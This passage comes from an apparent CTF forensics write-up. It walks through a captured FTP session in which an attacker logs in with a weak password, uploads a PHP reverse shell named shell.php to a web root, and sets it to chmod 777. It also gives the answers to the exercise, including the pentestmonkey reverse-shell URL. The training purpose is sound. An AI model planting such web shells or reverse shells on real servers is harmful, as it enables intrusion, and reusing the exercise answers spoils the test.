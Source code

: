 ~~~
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
SYST
215 UNIX Type: L8
PWD
257 "/var/www/html" is the current directory
PORT 192,168,0,147,225,49
200 PORT command successful. Consider using PASV.
LIST -la
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
200 SITE CHMOD command ok.
QUIT
221 Goodbye.
~~~

Answer: `password123`

## What is the current FTP working directory after the attacker logged in?

The current working directory is shown in the same stream as above.

Answer: `/var/www/html`

## The attacker uploaded a backdoor. What is the backdoor's filename?

Information still on the same TCP stream.

Answer; `shell.php`

## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

At the bottom of the TCP stream window, use the arrow to navigate to the other streams and go 2 streams forward (stream #18) to reveal the content of the `shell.php` script. This is a famous PHP reverse shell hosted by pentestmonkey, and going through the comments in the file will reveal the URL where the script is hosted.

Answer: `http://pentestmonkey.net/tools/php-reverse-shell`
